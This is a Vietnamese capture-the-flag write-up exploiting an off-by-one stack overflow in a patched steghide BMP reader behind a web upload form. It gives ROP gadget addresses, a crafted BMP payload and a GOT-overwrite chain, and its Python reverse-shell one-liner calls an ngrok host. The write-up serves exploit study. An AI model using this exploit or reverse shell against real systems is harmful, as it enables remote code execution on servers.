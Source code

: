 **1. Tìm lỗi**
  - Đây là chall dùng 1 tool thực tế có tên là `steghide` nên việc tìm lỗi thông qua `source` rất khó. Tuy nhiên chall này đã cung cấp cho ta 2 file `binary` trong đó có một file có lỗi và một file đã vá, ta chỉ cần chỉ ra điểm khác nhau là có thể dễ dàng tìm thấy được lỗi.
  - A Hy đã chỉ mình dùng tool `Bindiff` để so sánh, và dễ dàng chỉ ra điểm khác nhau ở hàm `BmpFile::readdata()`
  - ![image](https://user-images.githubusercontent.com/113702087/230003701-123b757e-92a1-4b1b-a401-6d46e03ac9e7.png)
  - Khi độ chính xác của hàm này ở 2 file là `99%`.
  - ![image](https://user-images.githubusercontent.com/113702087/230004061-c3aa1828-cf77-48d7-922e-fe84e25583e8.png)
  - Dễ dàng thấy điểm khác nhau tại vòng `for` khi điều kiện lặp ở file lỗi là `<= height` trong khi ở file vá là `< height`. Điều này có thể dẫn đến các lỗi như `overflow`, `out of bound`, ...
  - ![image](https://user-images.githubusercontent.com/113702087/230006389-e6491c26-0bc8-490d-971b-7c86ec58d04c.png)
  - Trong hàm này nó sẽ đọc dữ liệu từ `file` lượng byte tối đa đọc được phụ thuộc vào `height` và `linelength`, tổng lượng byte đọc được sẽ lưu vào `numread` tuy nhiên do `<=` nên `numread` sẽ vượt quá `height*linelength`. Mình sẽ dùng `x` của `ida` để xem `numread` được sử dụng ở đâu.
  - Cho ai thắc mắc thì `height` và `linelength` là chiều rộng và chiều dài của file và nó được đọc từ trường `header` của file thông qua hàm `BmpFile::readheaders()` vậy nên thêm bao nhiêu dữ liệu vào thì giá trị của chúng luôn không đổi.
  - ![image](https://user-images.githubusercontent.com/113702087/230009548-865d05a9-9daa-4e8b-9016-78001dc91068.png)
  - ![image](https://user-images.githubusercontent.com/113702087/230009377-c6ed3fd2-5264-40b9-a966-305c34faf26f.png)
  - Sau khi `readdata` nó sẽ thực hiện `getdata` nơi sẽ gọi `getheaders`. Trong `getheaders` nó thực hiện cấp phát bằng `alloca` trên stack bằng `height*linelength` nhưng nó lại dùng `memcpy(&v3, a1, (unsigned int)numread)` để copy dữ liệu đọc được từ file vào stack với size là `numread`, như đã nói ở trên `numread` có thể > `height*linelength` do đó tại đây nó sẽ gây lỗi `overflow`.
  - Về phía `server` là một `website`
  - ![image](https://user-images.githubusercontent.com/113702087/230004814-79b696e8-b4fb-479b-af81-674edb6c0d2f.png)
  - nó nhận đầu vào là một `file` và `pass` của file này rồi thực thi câu lệnh `subprocess.run(['steghide', 'extract', '-sf', stegfile_name, '-p', request.form['passphrase'], '-xf', outfile_name], check=True, timeout=60)`
  - Có vẻ như `BmpFile::readdata()` sẽ được thực hiện khi ta `extract` một file `bmp` nên ta sẽ dùng `bmp` để gửi `payload`.

**2. Ý tưởng**
  - ![image](https://user-images.githubusercontent.com/113702087/230013813-388a983e-9275-4395-8656-8989c86eae87.png)
  - Ta có thể `overwrite` saverip với 126 byte khá là ít, tuy nhiên đủ để ta tạo shell nhưng việc tạo shell dường như là vô nghĩa khi nó không có `netcat`. Vậy nên ta sẽ chuyển sang hướng `reverse shell` để tạo `shell` về máy mình. Đê làm được điều này ta cần rất nhiều gadget do đó ta sẽ thay đổi rsp thông qua rbp với một địa chỉ ghi được đã biết.
  - Do không thể sử dụng các hàm input vì không có `netcat` nên ta sẽ sử dụng input có sẵn từ file để nạp `gadget` vào một địa chỉ trên binary và trỏ rsp vào đây. Ta có thể lợi dụng `memcpy` lần nữa để đưa các `payload` từ file vào địa chỉ mong muốn do ta có thể thay đổi `rdi` thông qua `pop rdi ; ret`.
  - Trước khi `ret` các thanh ghi có giá trị như sau:
  - ![image](https://user-images.githubusercontent.com/113702087/230015037-8418ddf8-ae2e-4d3b-81f6-eaaa5f467e63.png)
  - Dường như sau khi `memcpy` thì `rsi` và `rdi` đã thay đổi chỉ còn lại `rdx`. Tuy nhiên `rdi` mới này lại cách `rsi` cũ `0x58` byte vậy nên có thể coi nó là `rsi` cũ, việc cần làm là chuyển `mov rsi, rdi ;  pop rdi ; ret ; memcpy` thì ta có thể thực hiện chuyển `payload` sang địa chỉ tùy ý. Nhưng gần như không có gadget nào thỏa mãn điều này. Các gadget control `rsi` dường như sẽ khiến chương trình `exit`.
  -  Sau một lúc suy ngẫm thì mình thấy được cái này.
  -  ![image](https://user-images.githubusercontent.com/113702087/230018211-eb4539b8-9a4f-4513-91c8-98d3258c69c4.png)
  -  ![image](https://user-images.githubusercontent.com/113702087/230018590-232045e1-e886-4384-a83b-e5b49b3125d2.png)
  - Một phần của hàm `getheaders()`, điều này có nghĩa là ta sẽ thay đổi được `[rbp+dest]` và `[rbp+src]`, ban đầu ta sẽ thay đổi `rbp` rồi đưa `rdi` vào `[rbp+src]`, như thế ta có thể copy `payload` vào địa chỉ tùy ý rồi.
  - ![image](https://user-images.githubusercontent.com/113702087/230021665-e1162f76-40f8-443a-97a2-40e31c4f0816.png)
  - Việc bây giờ ta chỉ tính `offset` và thực thi `reverse shell`
  - Mình sẽ chọn `python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"0.tcp.ap.ngrok.io\",13577));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'` để làm `reverse shell`, rồi thực thi `system(reverseshell)`

**3. Khai thác**
  ```
  pop_rax_rbx_rbp = 0x0000000000414d29
pop_rsi = 0x0000000000417f3e
pop_rdx = 0x000000000042cd0c
pop_rdi = 0x0000000000450e8b
add_irbp_ebx = 0x0000000000404a38
pop_rbp = 0x0000000000404a39
leave_ret = 0x000000000040a392
syscall = 0x00000000004066b3
addr = 0x48a930
movinrbp_rdi = 0x00000000004220e0
  ```
  - setup một số `gadget` có ích
  ```
  headerfile = b'BMzL\x02\x00\x00\x00\x00\x00>\x00\x00\x00(\x00\x00\x00\xd3\x05\x00\x00!\x03\x00\x00\x01\x00\x01\x00\x00\x00\x00\x00<L\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\x00'
shellrv = f'python3 -c \x27import os,pty,socket;s=socket.socket();s.connect((\x22{ip}\x22,{port}));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\x22sh\x22)\x27\x00'
shell = headerfile + b'a'*(len(shellrv)-10 - 8)
  shell += flat(
    pop_rax_rbx_rbp+1, 0x13e10, exe.got['gettext'] + 0x3d,
    add_irbp_ebx,
    pop_rdi, 0x48abd4,
    exe.sym['gettext'],
    word_size=64, sign = True
)
  ```
  - Đầu tiên ta sẽ tạo một `headerfile` và `reverse_shell`, căn chỉnh thêm `offset` rồi đưa các `gadget` vào các `gadget` này sẽ được thực thi sau khi thay đổi được rsp
  - `gadget` trên sẽ thay đổi `gettext got` thành `system` và thực thi `reverse shell`
  ```
  shell += shellrv.encode()*29
shell = shell.ljust(0x24c71, b'\xff') + 0x3e*b'a'
  ```
  - Tiếp đến ta sẽ đưa `reverse shell` vào và bù thêm một phần để `overflow` đoạn `memcpy`.
  ```
  rop = flat(
    addr,
    movinrbp_rdi, addr + 8,
    pop_rdi, addr,
    movinrbp_rdi, addr + 0x20,
    pop_rdx, 0x6d0,
    0x41B355,
    pop_rbp, addr,
    leave_ret,
    word_size=64, sign = True
)

shell += rop
  ```
  - ROP này sẽ được chèn vào khi `overflow` nhằm thực hiện lại `memcpy` như đã nói ở trên và thay đổi `rsp`.

**4. Demo trên docker**
  - Mình test trên `docker` được nhưng `server` thì lỗi nên sẽ làm trên `docker`.
  - ![image](https://user-images.githubusercontent.com/113702087/230026857-978c0b29-a759-4c2b-a375-3aa14e069da8.png)
  - Ta tạo host thông qua `ngrok` và `listen` tại port `8080`. Rồi tạo file ảnh với `script` trên theo `ip` và `port`
  - Ta sẽ gửi file ảnh lên `web` và chờ kết quả
  - ![image](https://user-images.githubusercontent.com/113702087/230027418-d7f1184e-a457-4d42-97e4-ae59028f615f.png)
  - ![image](https://user-images.githubusercontent.com/113702087/230027932-bc1f95db-6601-45f8-b848-4a508c11b3ba.png)
